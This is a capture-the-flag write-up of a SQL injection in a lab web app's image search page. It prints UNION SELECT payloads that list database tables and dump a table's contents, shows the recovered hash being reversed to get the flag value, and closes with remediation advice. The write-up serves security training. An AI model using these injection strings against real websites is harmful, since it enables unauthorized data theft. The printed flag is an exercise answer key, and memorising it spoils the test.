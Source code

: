 # situation

## http://192.168.56.101/?page=searchimg

search interpet sql like in usr sql injection 

we use same technique we find this 

we use this to show all tables
0 UNION  select table_name, column_name FROM information_schema.columns  


we ask for 2 paramets in sql select (url , comment ) otherwise the sql request returns nothing.


ID: 0 UNION select url, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png

md5 decrypte : 1928e8083cf461a51303633093573c46 : albatroz
sha256 encrypt : Sha256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
so we find this flag : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


# problem

All sensitive information stored in the database is accessible to anyone.


# solution

Use an ORM (Object-Relational Mapping) library: An ORM can help to abstract away the SQL and provide a safe and secure way to interact with the database.

Validate and sanitize user input: By validating and sanitizing user input, you can prevent malicious code from being included in SQL statements.

Use a whitelist approach: Only allow specific, known good inputs and prevent all other inputs.

In SQL, we can specify and limit access to certain tables based on the IP that makes the request. This prevents if a vulnerability is discovered by hacker, the entire database from being usable.